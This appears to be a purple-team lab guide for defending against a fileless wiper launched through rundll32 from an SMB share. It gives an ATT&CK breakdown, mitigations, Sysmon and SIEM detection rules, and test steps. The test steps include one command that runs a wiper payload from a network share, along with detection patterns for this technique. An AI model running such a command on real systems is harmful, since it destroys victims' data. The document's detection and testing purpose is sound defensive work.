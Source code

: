 

# Purple Team Defensive Setup & Detection Plan for Fileless Wiper via rundll32 + Net Share

---

## 1. Attack Vector Breakdown

| Attack Step                       | Technique (MITRE ATT\&CK)                                            | Description                                                 |
| --------------------------------- | -------------------------------------------------------------------- | ----------------------------------------------------------- |
| **Fileless Payload Delivery**     | T1564.001 - Hide Artifacts: Hidden Files                             | Payload embedded in JPG, decoded in memory                  |
| **Remote File Execution**         | T1021.002 - Remote Services: SMB/Windows Admin Shares                | Execution via `rundll32.exe` pointing to a remote net share |
| **Process Execution**             | T1059.003 - Command and Scripting Interpreter: Windows Command Shell | `rundll32.exe` execution running payload                    |
| **Data Destruction (Wiper)**      | T1485 - Data Destruction                                             | Overwriting data on disk via memory payload                 |
| **Persistence & Defense Evasion** | T1070 - Indicator Removal on Host                                    | Potential log tampering, clearing events                    |

---

## 2. Mitigations to Deploy in Lab Environment

### 2.1 Network & Share Access Controls

* **Limit SMB share permissions** to restrict write/execute from unauthorized accounts.
* **Disable Admin Shares (C\$, ADMIN\$)** if not needed.
* **Network segmentation:** isolate your file servers and endpoints with VLANs and firewall rules.
* **SMB Signing enforcement** to prevent tampering.

### 2.2 Endpoint Protection

* **Block or monitor `rundll32.exe` launching from network paths.**
* **Implement Application Control (AppLocker / Windows Defender Application Control)** policies restricting execution paths for `rundll32.exe`.
* **Enable Windows Defender Exploit Guard** to restrict suspicious process injections and script execution.
* **Disable unneeded scripting hosts** (cscript, wscript) and restrict PowerShell with constrained language mode.

### 2.3 Logging & Audit Policies

* Enable **Audit Process Creation** with command line logging (`Sysmon Event ID 1`).
* Enable **Audit File Share Access** on your SMB server (Windows Security log Event IDs 5140 for share access).
* Enable **Audit Handle Manipulation and File Deletion** (`Sysmon Event ID 10`).
* Enable **Object Access Auditing** for critical files and folders targeted by the wiper.

---

## 3. Detection Rules & Log Monitoring

### 3.1 Sysmon Detection Rules (Extend from prior config)

Add detection for `rundll32.exe` launching from network paths:

```xml
<ProcessCreate onmatch="include">
  <Image condition="end with">rundll32.exe</Image>
  <CommandLine condition="contains">\\</CommandLine> <!-- Network path -->
</ProcessCreate>
```

Detect unusual file accesses on net shares:

```xml
<FileCreate onmatch="include">
  <TargetFilename condition="contains">\\</TargetFilename>
</FileCreate>
```

Detect process injection or memory tampering:

```xml
<ProcessAccess onmatch="include">
  <GrantedAccess condition="contains">0x1F0FFF</GrantedAccess> <!-- Full access -->
</ProcessAccess>
```

---

### 3.2 Windows Event IDs to Monitor

| Event ID | Source                              | Description                           |
| -------- | ----------------------------------- | ------------------------------------- |
| 1        | Sysmon                              | Process Creation (with cmd line)      |
| 10       | Sysmon                              | Process Access (injection)            |
| 5140     | Microsoft-Windows-Security-Auditing | Network share object accessed         |
| 4656     | Microsoft-Windows-Security-Auditing | Handle to an object requested         |
| 4663     | Microsoft-Windows-Security-Auditing | File/Folder access or deletion        |
| 1102     | Microsoft-Windows-EventLog          | Event log cleared (indicator removal) |

---

## 4. Sample Detection Logic for SIEM or ELK

```yaml
- name: Detect rundll32 execution with network path payload
  condition: and
  conditions:
    - event_id: 1
    - process_name: rundll32.exe
    - command_line_contains: '\\\\' # double backslash for network share path

- name: Detect suspicious SMB share file creation
  condition: and
  conditions:
    - event_id: 11 or 4663
    - target_filename_contains: '\\\\'  # file created on network share

- name: Detect event log clearing
  condition: event_id == 1102

- name: Detect process injection or handle manipulation
  condition: event_id == 10 and granted_access == "0x1F0FFF"
```

---

## 5. Purple Team Testing Steps

1. **Deploy your fileless wiper payload embedded in JPG** on the SMB share accessible to Windows 11 VM.
2. From Kali or attacker VM, remotely trigger execution with:

   ```powershell
   rundll32.exe \\10.10.10.20\share\wiper_payload.jpg,EntryPoint
   ```
3. Monitor Windows 11 VM with Sysmon logs and Security Event logs for matches against above detections.
4. Verify if data destruction occurs and if detection/alerts trigger in your SIEM or log monitoring stack.
5. Adjust mitigations or detection tuning based on observed gaps.
6. Test log integrity and event clearing attempts by wiper payload.

---

## 6. Additional Notes

* Consider using **Sysmon’s `Event ID 17` (Pipe Created) and `Event ID 8` (CreateRemoteThread)** to catch more advanced process injection or IPC techniques often used by fileless payloads.
* Test **Windows Defender ATP or EDR solutions** if available for behavioral detections on `rundll32.exe` activity.
* Monitor **network traffic for SMB anomalies or suspicious connection spikes** with network sensors or Zeek/Bro on your Kali VM.


